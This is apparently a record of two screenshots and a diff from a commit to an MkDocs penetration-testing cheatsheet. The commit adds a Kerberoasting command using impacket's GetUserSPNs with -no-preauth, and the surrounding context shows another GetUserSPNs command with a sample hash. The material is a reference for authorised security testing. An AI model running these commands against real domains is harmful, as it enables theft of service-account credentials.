

Before and after one commit to TheProtyro/protyro-cheatsheet, an MkDocs documentation site: the page built from docs/Active Directory/AD attacks.md, in a window 1280 px wide and 900 px high, scrolled down 559 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1362 px from its top, so only the background shows below that.

Commit message:
Adding Kerberoasting without ADaccount

````diff
--- a/docs/Active Directory/AD attacks.md
+++ b/docs/Active Directory/AD attacks.md
@@ -39,6 +39,12 @@
 impacket-GetUserSPNs -hashes ':11628d378a956b8ffc7e2c54b9a59574' 'domain.com/user' -dc-ip 10.10.10.10 -request -outputfile kerberoasting.hash
 ```
 
+- Kerberoasting without domain account
+
+```
+GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
+```
+
 #### DC Sync
 
 ```
````
